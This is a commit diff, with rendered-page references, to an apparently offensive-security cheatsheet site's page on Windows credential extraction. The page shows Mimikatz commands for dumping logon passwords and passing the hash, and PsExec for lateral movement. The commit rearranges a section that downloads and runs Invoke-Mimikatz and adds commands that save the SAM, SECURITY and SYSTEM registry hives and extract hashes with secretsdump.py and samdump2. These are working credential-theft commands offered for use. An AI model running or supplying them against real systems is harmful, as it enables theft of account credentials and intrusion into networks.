

Before and after one commit to agrzeslak/cheatsheet, a Jekyll site: the page built from _topics/windows-credential-extraction.md, in a window 1280 px wide. Shown: the whole page, without its empty margins (0-832 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 906 px from its top, so only the background shows below that.

Commit message:
added registry hash extraction

````diff
--- a/_topics/windows-credential-extraction.md
+++ b/_topics/windows-credential-extraction.md
@@ -31,23 +31,6 @@ sekurlsa::logonpasswords
 ```
 
 ### On Target Machine
-#### PowerShell Version ([Invoke-Mimikatz.ps1](https://github.com/clymb3r/PowerShell/blob/master/Invoke-Mimikatz/Invoke-Mimikatz.ps1))
-In-memory
-```powershell
-Invoke-WebRequest -UseBasicParsing <url> -Verbose
-```
-
-Save to disk
-```powershell
-Invoke-WebRequest -UseBasicParsing <url> -OutFile Invoke-Mimikatz.ps1 -Verbose
-```
-
-```powershell
-Get-Help Invoke-Mimikatz
-.\Invoke-Mimikatz -DumpCreds
-Invoke-Mimikatz -ComputerName
-```
-
 #### Extracting Passwords
 ```shell
 privilege:debug
@@ -59,3 +42,31 @@ sekurlsa::logonPasswords
 sekurlsa::pth /user:<user> /domain:<domain> /ntlm:<ntlm hash>  # Hash from previous password extraction
 PsExec.exe \\<domain> cmd.exe  # Spawn cmd prompt on given domain
 ```
+
+### On Target Machine (PowerShell Version)
+Get script onto target machine ([Invoke-Mimikatz.ps1](https://github.com/clymb3r/PowerShell/blob/master/Invoke-Mimikatz/Invoke-Mimikatz.ps1))
+```powershell
+Invoke-WebRequest -UseBasicParsing <url> -Verbose                               # In-memory
+Invoke-WebRequest -UseBasicParsing <url> -OutFile Invoke-Mimikatz.ps1 -Verbose  # Save to disk
+```
+
+Extact passwords, etc.
+```powershell
+Get-Help Invoke-Mimikatz
+.\Invoke-Mimikatz -DumpCreds
+Invoke-Mimikatz -ComputerName
+```
+
+## Registry Dump
+Dump SAM, SECURITY and SYSTEM registry hives
+```powershell
+reg.exe save hklm\sam <output path>
+reg.exe save hklm\security <output path>
+reg.exe save hklm\system <output path>
+```
+
+Dump hashes on local machine
+```shell
+secretsdump.py -sam <sam> -security <security> -system <system> LOCAL  # Impacket
+samdump2 <system> <sam>
+```
````
